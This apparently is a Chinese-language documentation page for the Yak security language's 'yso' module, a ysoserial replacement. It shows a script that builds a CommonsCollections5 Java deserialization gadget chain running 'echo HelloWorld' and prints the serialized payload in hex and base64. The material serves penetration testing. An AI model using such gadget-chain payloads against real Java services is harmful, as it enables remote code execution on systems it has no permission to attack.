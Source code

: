 ---
sidebar_position: 113
---

# Java 反序列化利用链: yso(ysoserial)

Yak 通过非 Java 的方式实现了一整套 Java 反序列化协议。

可以在一定容错限度内劫持绝大部分 Java 反序列化流。

详情参考 [java: java 反序列化协议的 Golang/Yak 实现](/api-manual/api/java)

## YSoSerial 的 Yak 替代品

在实现了 Java 反序列化协议后，Java 相关漏洞不再需要原生 Java 或硬编码 HEX/Binary 流来实现。

```yak
evilCls, err = yso.GetCommonsCollections5("echo HelloWorld")
die(err)

bytes = java.MarshalJavaObjects(evilCls)
hexStr = codec.EncodeToHex(bytes)
base64Str = codec.EncodeBase64(bytes)

dump(bytes)
println(hexStr + "\n")
println(base64Str + "\n")

/*
OUTPUT:

([]uint8) (len=2084 cap=2304) {
 00000000  ac ed 00 05 73 72 00 2e  6a 61 76 61 78 2e 6d 61  |....sr..javax.ma|
 00000010  6e 61 67 65 6d 65 6e 74  2e 42 61 64 41 74 74 72  |nagement.BadAttr|
 00000020  69 62 75 74 65 56 61 6c  75 65 45 78 70 45 78 63  |ibuteValueExpExc|
 00000030  65 70 74 69 6f 6e d4 e7  da ab 63 2d 46 40 02 00  |eption....c-F@..|
                                ......
                                ......
                                ......
                                        c 61 6e 67 2e 4e 75  |xr..java.lang.Nu|
 000007c0  6d 62 65 72 86 ac 95 1d  0b 94 e0 8b 02 00 00 78  |mber...........x|
 000007d0  70 00 00 00 01 73 72 00  11 6a 61 76 61 2e 75 74  |p....sr..java.ut|
 000007e0  69 6c 2e 48 61 73 68 4d  61 70 05 07 da c1 c3 16  |il.HashMap......|
 000007f0  60 d1 03 00 02 46 00 0a  6c 6f 61 64 46 61 63 74  |`....F..loadFact|
 00000800  6f 72 49 00 09 74 68 72  65 73 68 6f 6c 64 78 70  |orI..thresholdxp|
 00000810  3f 40 00 00 00 00 00 00  77 08 00 00 00 10 00 00  |?@......w.......|
 00000820  00 00 78 78                                       |..xx|
}

aced00057372002e6a617661782e6d616e6167656d656e74......c1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f40000000000000770800000010000000007878

rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhj......HVleHIAEGphdmEubGFuZy5OdW1iZXKGrJUdC5TgiwIAAHhwAAAAAXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAB3CAAAABAAAAAAeHg=
*/
```